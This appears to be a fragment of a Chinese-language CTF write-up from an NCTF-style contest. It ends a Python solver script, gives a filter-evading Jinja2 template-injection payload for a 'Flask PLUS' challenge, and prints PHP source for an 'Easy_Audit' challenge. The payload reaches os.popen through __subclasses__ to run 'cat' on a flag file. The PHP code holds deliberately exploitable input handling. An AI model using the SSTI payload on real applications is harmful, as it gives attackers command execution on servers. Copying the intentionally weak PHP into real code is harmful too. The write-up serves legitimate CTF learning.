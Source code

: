 ```python
    print(b)
    print
    time.sleep(1)
    data = {
        'ans' : b,
        'input' : '4200000000000000000000'
    }
    print(data)
    r = session.post(url = url, data = data)
    print(r.text)
    a = 0
    payload = ''
```

## Flask PLUS

除了`os._wrap_close`的位置变了，其他一模一样

```python
{{""["__cla""ss__"]["__m""ro__"][-1]["__subcl""asses__"]()[137]["__in""it__"].__globals__['po''pen']('cat /Th1s_is__F1114g').read()}}
```

## Easy_Audit

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if($_REQUEST){
    foreach ($_REQUEST as $key => $value) {
        if(preg_match('/[a-zA-Z]/i', $value))   die('waf..');
    }
}

if($_SERVER){
    if(preg_match('/yulige|flag|nctf/i', $_SERVER['QUERY_STRING']))  die('waf..');
}

if(isset($_GET['yulige'])){
    if(!(substr($_GET['yulige'], 32) === md5($_GET['yulige']))){         //日爆md5!!!!!!
        die('waf..');
    }else{
        if(preg_match('/nctfisfun$/', $_GET['nctf']) && $_GET['nctf'] !== 'nctfisfun'){
            $getflag = file_get_contents($_GET['flag']);
        }
        if(isset($getflag) && $getflag === 'ccc_liubi'){
            include 'flag.php';
            echo $flag;
        }else die('waf..');
    }
}


?>
```
